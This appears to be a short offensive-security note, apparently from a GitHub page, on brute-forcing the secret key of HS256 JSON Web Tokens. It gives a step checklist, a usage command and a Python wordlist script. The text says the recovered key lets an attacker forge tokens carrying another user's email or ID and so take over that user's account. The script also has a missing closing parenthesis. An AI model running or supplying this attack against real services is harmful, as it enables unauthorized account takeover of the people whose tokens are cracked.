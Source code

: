 # JWT attack

* jwt brute force attack

## JWT Brute Force Attack

- [x] login to account
- [x] look for JWT token
- [x] bruteforce it with below python script for its secret key
- [x] command to use below code `python3 brute-jwt.py --file secrets.txt --
algorithm HS256 --token <TOKEN_VALUE_HERE>`
- [x] after successfully retrive the secret key than you can generate new jwt token with other user email address or user id and then you can do account takeover.

``` python
    #!/usr/bin/python

import sys
import jwt
import argparse
from termcolor import colored

parser = argparse.ArgumentParser(description='JWT',epilog='JWT'
parser.add_argument("--file",help="provide file input",dest='filename',required=True)
parser.add_argument("--token",help="provide token",dest='token',required=True)
parser.add_argument("--algorithm",help="provide algorithm",dest='algorithm',required=True)
args = parser.parse_args()

filename = args.filename
encoded = args.token
algorithm = args.algorithm

with open(filename) as secrets:
    for secret in secrets:
        try:
            payload = jwt.decode(encoded, secret.rstrip(), algorithms = [algorithm])
            print(colored('Success! Token decoded with ..... [' + secret.rstrip() + ']','green'))
            break
        except jwt.InvalidTokenError:
            print(colored('Invalid token .... [' + secret.rstrip() + ']', 'red'))
        except jwt.ExpiredSignatureError:
            print(colored('Token Expired ....[' + secret.rstrip() + ']','red'))


```
